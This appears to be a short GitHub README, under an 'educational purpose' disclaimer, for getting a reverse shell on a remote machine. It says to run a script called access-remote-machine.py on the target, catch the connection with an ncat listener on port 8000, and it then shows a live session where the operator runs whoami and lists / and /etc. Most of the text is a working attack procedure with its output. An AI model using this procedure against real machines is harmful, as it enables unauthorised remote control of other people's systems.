 
Note: 
The below code is only for educational purpose. 

Step 1: 
By running this on remote machine, it gives grants access to remote-ip mentioned in `access-remote-machine.py`
```
python access-remote-machine.py
```

Step 2: 
Install `ncat` if not installed on the machine

```
ncat -l -v -p 8000 
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::8000
Ncat: Listening on 0.0.0.0:8000
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:32788.
whoami
node
whereis cat 
cat: /bin/cat /usr/share/man/man1/cat.1.gz

cd / && ls 
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

cd / && ls && cd /etc && ls 

bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

X11
adduser.conf
alternatives
apparmor.d
apt
bash.bashrc
bash_completion.d
bindresvport.blacklist
ca-certificates
ca-certificates.conf
cron.d
cron.daily
cron.weekly
dbus-1
debconf.conf
debian_version
default
deluser.conf
dpkg
e2scrub.conf
emacs
environment
ethertypes
fonts
fstab
gai.conf
groff
group
group-
gshadow
gshadow-
gss
host.conf
hostname
hosts
init.d
inputrc
iproute2
issue
issue.net
kernel
ld.so.cache
ld.so.conf
ld.so.conf.d
libaudit.conf
libnl-3
locale.alias
locale.gen
localtime
logcheck
login.defs
logrotate.d
magic
magic.mime
manpath.config
mercurial
mime.types
```
